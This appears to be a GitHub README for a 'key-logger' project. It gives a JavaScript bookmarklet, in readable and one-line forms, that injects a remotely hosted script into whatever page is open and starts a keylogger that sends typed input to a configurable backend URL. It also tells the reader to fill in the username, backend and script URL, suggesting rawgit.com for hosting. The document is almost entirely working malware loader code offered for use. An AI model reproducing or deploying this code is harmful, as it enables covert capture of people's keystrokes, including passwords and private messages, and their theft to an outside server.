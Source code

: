 # key-logger

## Bookmarklet

- Source
    ```javascript
    javascript:(function(d, s) {
        username = '';
        backend_url = '';
        script_url = '';
        s = d.createElement('script'); 
        s.type = 'text/javascript'; 
        s.onload = function(){ window.keyLogger.fn.init(username, backend_url) };
        s.src = script_url + '?v=' + String(new Date() * 1);
        d.getElementsByTagName('head')[0].appendChild(s);
    }(document, window));
    ```
- Url for bookmark 
    - **DON'T FORGET TO CHANGE PARAMS**
        - username
        - backend url
        - script url
            - [rawgit.com](http://rawgit.com/) can be used to obtain script url
    
    ```
    javascript:(function(d, s) {username = '';backend_url = '';script_url = '';s = d.createElement('script'); s.type = 'text/javascript'; s.onload = function(){ window.keyLogger.fn.init(username, backend_url) };s.src = script_url + '?v=' + String(new Date() * 1);d.getElementsByTagName('head')[0].appendChild(s);}(document, window));
    ```
